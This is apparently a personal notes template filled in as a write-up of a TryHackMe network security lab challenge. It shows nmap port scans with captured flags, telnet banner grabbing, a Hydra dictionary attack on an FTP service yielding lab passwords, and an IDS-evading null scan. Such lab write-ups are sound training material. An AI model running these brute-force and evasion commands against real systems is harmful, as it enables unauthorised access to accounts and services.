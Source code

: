 ```yaml
---
creation date: January 8th 2023
last modified date: January 8th 2023
aliases: []
tags: #🎌
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #🎌  

# [[THM - Net Sec Challenge]]  


# Resolution summary
- Text
- Text

## Improved skills
- skill 1
- skill 2

## Used tools
- [[nmap]]
- [[Hydra]]
- [[Telnet]]

---

# Information Gathering
Scanned all TCP ports:
```bash
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
8080/tcp  open  http-proxy
10021/tcp open  unknown
```

Enumerated open TCP ports:
```bash
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         (protocol 2.0)
| ssh-hostkey: 
|   3072 da5f69e2111f7c6680896154e87b16f3 (RSA)
|   256 3f8c0946ab1cdfd73583cf6d6e177e1c (ECDSA)
|_  256 eda93aaa4c6b16e60d437546fb33b229 (ED25519)
| fingerprint-strings: 
|   Arucer, DistCCD, NULL, beast2, gkrellm, minecraft-ping, mydoom, vp3: 
|     SSH-2.0-OpenSSH_8.2p1 THM{946219583339}
|   Hello, Help, LPDString, Memcache, NessusTPv10, NessusTPv11, NessusTPv12, SqueezeCenter_CLI, Verifier, VerifierAdvanced, WWWOFFLEctrlstat, dominoconsole, tarantool: 
|     SSH-2.0-OpenSSH_8.2p1 THM{946219583339}
|_    Invalid SSH identification string.
80/tcp    open  http        lighttpd
|_http-server-header: lighttpd THM{web_server_25352}
|_http-title: Hello, world!
139/tcp   open  netbios-ssn Samba smbd 4.6.2
445/tcp   open  netbios-ssn Samba smbd 4.6.2
8080/tcp  open  http        Node.js (Express middleware)
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
10021/tcp open  ftp         vsftpd 3.0.3
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port22-TCP:V=7.93%I=9%D=1/8%Time=63BB6B26%P=x86_64-pc-linux-gnu%r(NULL,
SF:29,"SSH-2\.0-OpenSSH_8\.2p1\x20THM{946219583339}\r\n")%r(Hello,4D,"SSH-
SF:2\.0-OpenSSH_8\.2p1\x20THM{946219583339}\r\nInvalid\x20SSH\x20identific
SF:ation\x20string\.\r\n")%r(Help,4D,"SSH-2\.0-OpenSSH_8\.2p1\x20THM{94621
SF:9583339}\r\nInvalid\x20SSH\x20identification\x20string\.\r\n")%r(LPDStr
SF:ing,4D,"SSH-2\.0-OpenSSH_8\.2p1\x20THM{946219583339}\r\nInvalid\x20SSH\
SF:x20identification\x20string\.\r\n")%r(DistCCD,29,"SSH-2\.0-OpenSSH_8\.2
SF:p1\x20THM{946219583339}\r\n")%r(NessusTPv12,4D,"SSH-2\.0-OpenSSH_8\.2p1
SF:\x20THM{946219583339}\r\nInvalid\x20SSH\x20identification\x20string\.\r
SF:\n")%r(NessusTPv11,4D,"SSH-2\.0-OpenSSH_8\.2p1\x20THM{946219583339}\r\n
SF:Invalid\x20SSH\x20identification\x20string\.\r\n")%r(NessusTPv10,4D,"SS
SF:H-2\.0-OpenSSH_8\.2p1\x20THM{946219583339}\r\nInvalid\x20SSH\x20identif
SF:ication\x20string\.\r\n")%r(mydoom,29,"SSH-2\.0-OpenSSH_8\.2p1\x20THM{9
SF:46219583339}\r\n")%r(WWWOFFLEctrlstat,4D,"SSH-2\.0-OpenSSH_8\.2p1\x20TH
SF:M{946219583339}\r\nInvalid\x20SSH\x20identification\x20string\.\r\n")%r
SF:(Verifier,4D,"SSH-2\.0-OpenSSH_8\.2p1\x20THM{946219583339}\r\nInvalid\x
SF:20SSH\x20identification\x20string\.\r\n")%r(VerifierAdvanced,4D,"SSH-2\
SF:.0-OpenSSH_8\.2p1\x20THM{946219583339}\r\nInvalid\x20SSH\x20identificat
SF:ion\x20string\.\r\n")%r(Memcache,4D,"SSH-2\.0-OpenSSH_8\.2p1\x20THM{946
SF:219583339}\r\nInvalid\x20SSH\x20identification\x20string\.\r\n")%r(beas
SF:t2,29,"SSH-2\.0-OpenSSH_8\.2p1\x20THM{946219583339}\r\n")%r(SqueezeCent
SF:er_CLI,4D,"SSH-2\.0-OpenSSH_8\.2p1\x20THM{946219583339}\r\nInvalid\x20S
SF:SH\x20identification\x20string\.\r\n")%r(Arucer,29,"SSH-2\.0-OpenSSH_8\
SF:.2p1\x20THM{946219583339}\r\n")%r(dominoconsole,4D,"SSH-2\.0-OpenSSH_8\
SF:.2p1\x20THM{946219583339}\r\nInvalid\x20SSH\x20identification\x20string
SF:\.\r\n")%r(gkrellm,29,"SSH-2\.0-OpenSSH_8\.2p1\x20THM{946219583339}\r\n
SF:")%r(tarantool,4D,"SSH-2\.0-OpenSSH_8\.2p1\x20THM{946219583339}\r\nInva
SF:lid\x20SSH\x20identification\x20string\.\r\n")%r(vp3,29,"SSH-2\.0-OpenS
SF:SH_8\.2p1\x20THM{946219583339}\r\n")%r(minecraft-ping,29,"SSH-2\.0-Open
SF:SSH_8\.2p1\x20THM{946219583339}\r\n");
Service Info: OS: Unix

Host script results:
|_clock-skew: -1s
|_nbstat: NetBIOS name: NETSEC-CHALLENG, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
| smb2-time: 
|   date: 2023-01-09T01:18:49
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required

```

Enumerated top 200 UDP ports:
```bash

```

---

# Enumeration
## Port 


---

# Exploitation
## Banner Grabbing
### HTTP
1. Used Telnet in order to grab the header from HTTP port 80
2. `telnet 10.10.10.10 80`
3. `GET / HTTP/1.1`
4. `Host: telnet`
### SSH
1. Used Telnet in order to grab the header from SSH port 22
2. `telnet 10.10.10.10 22`
3. Right after entering we get the Version of SSH it is running

## Dictionary Attack
1. We are given to usernames for the FTP server running on **port: 10021**
2. Add both usernames to a file
3. `hydra -L Username_List -P /usr/share/wordlist/rockyouu.txt -s 10021 10.10.10.10 ftp`
4. Both accounts gave us passwords
	- **eddie:jordan**
	- **quinn:andrea**
5. Signed in with both and located the flag under the **quinn** account

## Stealth Scan
1. Lastly it wanted us to got to 10.10.10.10:8080 and there we find a page indicating that it wants us to scan the machine again as stealthy as we can to avoid an IDS
2. Tried on VM but ended up needing to run it on THM AttackBox
3. `nmap -sN 10.10.10.10`
4. This scan was enough to get the flag to pop for us on the site


---

# Lateral Movement to user
## Local Enumeration


## Lateral Movement vector


---

# Privilege Escalation
## Local Enumeration


## Privilege Escalation vector


---

# Trophy & Loot

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: January 8th 2023 (07:36 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
